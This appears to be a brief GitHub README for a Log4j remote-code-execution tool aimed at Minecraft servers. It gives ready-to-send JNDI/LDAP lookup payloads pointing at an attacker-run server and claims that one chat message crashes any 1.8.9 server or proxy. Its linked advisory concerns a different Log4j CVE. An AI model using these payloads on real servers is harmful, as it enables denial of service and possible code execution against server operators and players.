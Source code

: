 # Log4J-RCE-Implementation

Basically run this (replacing the ip and port to the server in this repo):
${jndi:ldap://127.0.0.1:3710/a}

For now, this is capable of crashing any MC server or proxy

Sending a single chat message "${jndi:ldap://192.168.1.123:3710/owo}" on any 1.8.9 server will crash.



https://github.com/pimps/CVE-2017-5645/blob/master/log4j%20advisory.txt
